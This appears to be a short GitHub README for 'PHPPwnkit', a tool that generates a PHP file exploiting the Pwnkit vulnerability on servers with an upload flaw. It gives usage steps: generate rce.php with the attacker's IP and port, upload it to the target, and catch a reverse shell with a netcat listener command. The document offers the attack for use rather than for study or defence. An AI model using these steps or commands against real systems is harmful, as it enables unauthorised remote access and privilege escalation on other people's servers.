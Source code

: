 # PHPPwnkit
PHPPwnkit generates a payload in PHP in order to exploit the Pwnkit vulnerability.
The attack requires an upload flaw with write permissions.
````
php PHPPwnkit 192.168.1.1 4444
````
The IP is yours and the port is the one on which you will listen in order to have your reverse shell.

This command generates an rce.php file. Simply upload the file to the target server and listen, as part of a reverse shell

```
nc -lnv -p 4444
```
